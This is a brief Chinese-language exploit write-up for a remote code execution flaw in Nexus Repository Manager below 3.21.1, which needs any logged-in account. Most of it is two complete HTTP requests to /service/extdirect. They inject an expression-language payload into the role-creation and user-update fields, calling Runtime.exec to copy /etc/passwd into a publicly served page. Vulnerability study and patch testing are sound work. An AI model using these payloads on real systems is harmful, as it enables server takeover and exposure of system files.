 <languages />

漏洞影響
--------

Nexus \< 3.21.1

前提條件
--------

漏洞觸發需要任意賬戶權限

漏洞利用
--------

該漏洞需要訪問更新角色或創建角色接口，登錄任意用戶後修改 NXSESSIONID

發送請求包執行命令

    POST /service/extdirect HTTP/1.1
    Host:
    accept: application/json
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.856555763510765
    Content-Type: application/json
    Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
    Content-Length: 304


    {"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}

另外一個漏洞點

    POST /service/extdirect HTTP/1.1
    Host:
    accept: application/json
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.856555763510765
    Content-Type: application/json
    Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
    Content-Length: 304


    {"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"]}],"type":"rpc","tid":9}